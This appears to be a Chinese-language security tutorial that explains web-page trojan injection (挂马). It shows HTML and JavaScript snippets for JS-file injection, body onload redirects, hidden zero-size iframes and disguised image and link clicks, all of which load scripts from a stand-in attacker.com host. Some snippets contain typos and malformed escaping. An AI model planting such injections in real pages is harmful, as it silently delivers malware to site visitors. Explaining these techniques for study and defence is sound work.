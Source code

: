   - js脚本挂马

    js脚本挂马指将网页木马的代码写入到js脚本文件中，利用用户打开网页时js脚本文件被调用的方法使js脚本中的网页木马被隐蔽执行

    ```javascript
    //with iframe
    document.write("<iframe src=\"http://attacker.com/attackScript.html\" width=0 height=0></iframe>");
    ```

    ```javascript
    //directly with JavaScript
    document.write("<script src=\"attrackScript.js\" ></script>");
    ```

  - body挂马

    body挂马是指通过HTML文件的body标记添加恶意网页地址，从而进行挂马的技术

    ```html
    <body onload="window.location=\&quot http://attacker.html.com/attackScript.html\&quot"></body>
    
    
    <body onload="document.write(&quot <iframe src=\&quot http://attacker.com/attackScript.html\&quot width=0 height=0></iframe> &quot);"></body>
    <body onload="document.write(&quot<script src=\&quot attrackScript.js\&quot ></script>&quot);"></body>
    ```

  - 伪装欺骗挂马

    伪装欺骗挂马指在网页中的某些图片、链接等特定位置处嵌入含有恶意网址的链接代码，从而实现用户点击网页中的图片、链接等特定位置时实现访问恶意网站的目的

    1. 图片伪装

       图片伪装指用户点击网页中的图片后在图片打开之前执行恶意代码

       ```html
       <img src="2.jpg" onclick="window.location=&quot http://attacker.com/attackScript.html &quot;"></img>
       ```

    2. 调用伪装

       调用伪装利用frameset(HTML5已废弃)实现在调用某个链接之后运行隐藏框架中的内容

       ```html
       <frameset rows="100px,0">
           <iframe src="www.baidu.com"></iframe>
           <iframe src="attracker.com/attrackScript.html"></iframe>
       </frameset>
       ```

    3. 网页链接伪装

       网页链接伪装指在网页中伪装一个可信网址的地址链接，用户点击后实际链接到一个载有木马的网页

       ```html
       <a onMouseOver="www_baidu_com();return true;" href="http://www.baidu.com" >baidu</a>
       <script>
       function www_baidu_com(){
           open("http://attracker.com/attrackScript.html","newwindow","width=400,height=400,top=200,left=200,scrollbars=0,toolbar=no,location=no,status=no");
       }
       </script>
       ```
